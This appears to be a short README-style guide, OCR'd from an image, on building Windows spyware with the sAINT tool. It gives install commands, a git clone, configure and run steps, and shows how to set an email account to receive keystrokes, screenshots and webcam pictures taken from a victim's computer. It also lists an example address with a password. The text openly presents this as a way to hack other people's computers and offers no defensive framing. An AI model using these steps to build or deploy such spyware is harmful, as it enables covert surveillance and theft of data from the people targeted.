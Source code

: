 Basically this is how to hack a windows based computer by creating an

.exe runnable file or a .jar runnable file and then sending information

IE keylogger, screenshots and webcam pics to an email account. DONT

USE YOUR OWN EMAIL ACCOUNT!

Using parrot os on my macbook

first install maven and java jdk 8

sudo apt install maven default-jdk default-jre openjdk-8-jdk openjdk-8-jre -y

To generate .EXE files you will also need to install this line

sudo apt install zlib1g-dev libncurses5-dev lib32z1 lib32ncurses5 -y

(I couldn't get this to work for some reason but I guess it still

is able to compile a .exe file for some reason?)

Then Clone this repo

git clone https://github.com/tiagorlampert/sAINT.git

go to folder

cd sAINT

install and configure

chmod +x configure.sh

./configure.sh

Run it

chmod +x sAINT.jar

./sAINT.jar

When prompted press enter and then put in your

email that you want all of the files to go to

(IE <PeterPanHacks@gmail.com>)

Pass is thatsmellything

Follow the prompts when asked what you want to

be sent. The characters one is how many keystrokes

you want in each email.

Your file will then be saved in the /target folder

Then just run it on a computer and it should work!
